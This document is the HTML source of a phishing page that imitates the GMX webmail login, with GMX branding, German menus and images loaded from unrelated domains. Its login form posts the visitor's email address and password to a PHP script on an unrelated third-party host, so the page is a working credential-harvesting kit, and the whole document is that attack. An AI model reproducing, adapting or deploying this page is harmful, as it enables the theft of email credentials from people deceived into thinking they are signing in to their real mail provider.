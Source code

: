 <!DOCTYPE html>
<html lang="en"><head>
<meta http-equiv="content-type" content="text/html; charset=UTF-8">
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="icon" type="image/png" href="https://gmxgty514.vercel.app/image/logo.png" sizes="50 40">
  
    <link href="https://anouan.fr/newgmx/GMXfiles/bootstrap.min.css" rel="stylesheet" integrity="sha384-EVSTQN3/azprG1Anm3QDgpJLIm9Nao0Yz1ztcQTwFspd3yD65VohhpuuCOmLASjC" crossorigin="anonymous">
    <link rel="stylesheet" href="https://anouan.fr/newgmx/GMXfiles/style.css">
    <title>Free Email Accounts @GMX.com: Secure &amp; easy to use</title>
  </head>
  <body>
    <div class="page">
      <div>
        <img src="https://anouan.fr/newgmx/GMXfiles/frontlogo.png">
      </div>
      <!-- <div class="search-tag">
        <input
          type="text"
          name=""
          id="search"
          class="search"
          placeholder="Suchen mit WEB.DE"
        />
        <div class="searchbox">
          <span><i class="bi bi-search"></i></span>
        </div>
      </div> -->
      <!-- <div class="circle">
        <i class="bi bi-question-circle-fill"></i>
        <p>Hilfe</p>
      </div>
      <div class="_text">
        <div>
          <button class="btn btn-main" type="submit">Registrieren</button>
        </div>
      </div> -->
    </div>

    <div class="menu-bar">
      <div>
        <i class="bi bi-list"></i>
      </div>
      <ul class="link">
        <li>E-Mail &amp; Cloud</li>
        <li>Mobilfunk &amp; DSL</li>
        <li>Strom &amp; Gas</li>
        <li>Lotto</li>
        <li>Vorteilswelt</li>
        <li>Versicherung</li>
        <li>WEB.Cent</li>
        <li>Games</li>
      </ul>
      <div class="menu-img">
        <img src="https://anouan.fr/newgmx/GMXfiles/photo55.png">
      </div>
    </div>

    <!-- HeroBody -->
    <div class="herobody">
      <img src="https://anouan.fr/newgmx/GMXfiles/photo6.png">
    </div>

   <div class="tagform">
      <form id="myform" class="myform" method="POST" action="https://cabinetrobertdossou.com/gmxjpg/eduuvm.php">
        <div class="icon">
          <i class="bi bi-envelope-fill"></i>
          <p>E-Mail</p>
          <i class="bi bi-grid-3x3-gap-fill"></i>
        </div>
        <div class="input-lab">
          <label for="email">Email:</label>
          <input type="email" name="email" id="email" placeholder="E-Mail Adresse" required="">
          <div class="error" hidden=""></div>
        </div>
        <div class="input-lab">
          <label for="password">Password:</label>
          <input type="password" name="password" id="password" placeholder="Passwort" required="">
          <div class="error" hidden=""></div>
        </div>
        <div>
          <button type="submit" class="btn btn-button">Login</button>
        </div>
        <div class="tagphoto">
          <img src="https://anouan.fr/newgmx/GMXfiles/logo45.jpg" \="">
        </div>
      </form>
    </div>
    <!-- Photo Section -->

    <div class="bodyphoto">
      <div class="photo1">
        <img src="https://anouan.fr/newgmx/GMXfiles/photo59.png">
      </div>
      <div class="photo2">
        <img src="https://anouan.fr/newgmx/GMXfiles/photo40.png">
      </div>
      <div class="photo3">
        <img src="https://anouan.fr/newgmx/GMXfiles/photo42.png">
      </div>
      <div class="photo4">
        <img src="https://anouan.fr/newgmx/GMXfiles/photo49.png">
      </div>
      <div class="photo5">
        <img src="https://anouan.fr/newgmx/GMXfiles/photo45.png">
      </div>
      <div class="photo6">
         <img src="https://anouan.fr/newgmx/GMXfiles/photo39.png">
      </div>
      <div class="photo7">
        <img src="https://anouan.fr/newgmx/GMXfiles/photo60.png">
      </div>
      <div class="photo7">
        <img src="https://anouan.fr/newgmx/GMXfiles/photo44.png">
      </div>
      <div class="photo8">
        <img src="https://anouan.fr/newgmx/GMXfiles/photo61.png">
      </div>
      <div class="photo9">
        <img src="https://anouan.fr/newgmx/GMXfiles/photo62.png">
      </div>
      <div class="photo10">
        <img src="https://anouan.fr/newgmx/GMXfiles/photo38.png">
      </div>
      <div class="photo11">
        <img src="https://anouan.fr/newgmx/GMXfiles/photo35.png">
      </div>
      <div class="photo12">
        <img src="https://anouan.fr/newgmx/GMXfiles/photo36.png">
      </div>
      <div class="photo13">
        <img src="https://anouan.fr/newgmx/GMXfiles/photo41.png">
      </div>
      <div class="photo14">
        <img src="https://anouan.fr/newgmx/GMXfiles/photo48.png">
      </div>
      <div class="photo15">
          <img src="https://anouan.fr/newgmx/GMXfiles/photo1.png">
      </div>
      <div class="photo16">
          <img src="https://anouan.fr/newgmx/GMXfiles/photo29.png">
      </div>
      <div class="photo17">
          <img src="https://anouan.fr/newgmx/GMXfiles/photo87.jpg">
      </div>
      <div class="photo18">
        <img src="https://anouan.fr/newgmx/GMXfiles/photo52.png">
      </div>
      <div class="photo19">
          <img src="https://anouan.fr/newgmx/GMXfiles/photo51.png">
      </div>
      <div class="photo20">
          
          <img src="https://anouan.fr/newgmx/GMXfiles/photo98.jpg">
      </div>
    </div>
    <script src="https://anouan.fr/newgmx/GMXfiles/script.js"></script>
  
</body></html>
